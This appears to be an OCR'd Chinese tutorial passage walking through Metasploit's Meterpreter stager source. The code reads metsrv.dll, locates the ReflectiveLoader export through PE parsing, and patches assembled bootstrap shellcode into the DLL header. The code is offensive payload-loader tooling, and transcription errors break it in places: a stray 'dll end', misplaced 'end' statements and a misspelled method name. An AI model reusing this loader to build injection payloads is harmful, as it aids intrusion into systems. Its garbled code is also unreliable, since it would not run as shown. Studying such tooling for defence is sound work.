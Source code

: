 ```c
def stage_meterpreter(opts={}) 
    # Exceptions will be thrown by the mixin if there are issues. 
    dll, offset = load_rdi_dll(MetasploitPayloads.meterpreter_path('metsrv', 'x86.dll'))//得到ReflectiveLoader函数的偏移 
    asm_opts = { 
        rdi_offset: offset, 
        length: dll.length, 
        stageless: opts[:stageless] == true
    } 
    asm = asm_invoke_metsrv(asm_opts) 
    # generate the bootstrap asm 

    bootstrap = Metasm::Shellcode.assemble(Metasm::X86.new, asm).encode_string 

    # sanity check bootstrap length to ensure we dont overwrite the DOS headers e_lfanew entry 
    if bootstrap.length > 62 
        raise RuntimeError, "Meterpreter loader (x86) generated an oversized bootstrap!" 
    end 

    # patch the bootstrap code into the dll's DOS header... 
    dll[ 0, bootstrap.length ] = bootstrap dll end
    dll 
end
```

来看一下下面的代码。

此函数功能：读取dll，接着调用parse\_pe函数得到ReflectiveLoader函数的偏移，在第11行返回了dll的数据与函数的便宜。

parse\_pe函数通过遍历dll的导出表得到名字是ReflectiveLoader函数的偏移

```c
def load_rdi_dll(dll_path) 
    dll = '' 
    ::File.open(dll_path, 'rb') { |f| dll = f.read } 
    offset = parse_pe(dll) 
    unless offset 
        raise "Cannot find the ReflectiveLoader entry point in #{dll_path}" 
    end 

    return dll, offset 
end 

def parse_pe(dll) 
    pe = Rex::PeParsey::Pe.new(Rex::ImageSource::Memory.new(dll)) 
    offset = nil 

    pe.exports.entries.each do |e| 
        if e.name =~ /^\\S\*ReflectiveLoader\\S\*/ 
        offset = pe.rva_to_file_ofset(e.rva) 
        break 
    end 
end 
    offset 
end
```

